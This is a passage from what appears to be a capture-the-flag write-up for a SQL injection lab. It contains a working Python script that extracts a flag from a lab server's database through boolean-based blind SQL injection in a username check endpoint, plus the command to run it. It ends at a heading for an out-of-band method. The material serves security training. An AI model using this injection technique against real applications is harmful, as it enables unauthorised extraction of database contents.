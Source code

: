 **flag.py**

```
import requests
import string

server = "10.10.29.184" # IP OR SERVERNAME IF IN HOST FILE
flag = ""
loop = 1

while chr(125) not in flag:
    for a in range(48,126):
        req = requests.get("http://" + server + f"/register/user-check?username=admin' AND (ASCII(SUBSTR((SELECT flag FROM sqhell_3.flag),{loop},1))) = '{a}'; --+")
        if 'false' in req.text:
             flag += chr(a)
             loop += 1
             print("Finding Flag: ", flag, end="\r")
             break
print("Flag found: ", flag)
```

**Kali**

```
python flag.py
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Flag 4

### Out-of-band - Browser Method <a href="#flag-4---out-of-band---browser-method" id="flag-4---out-of-band---browser-method"></a>
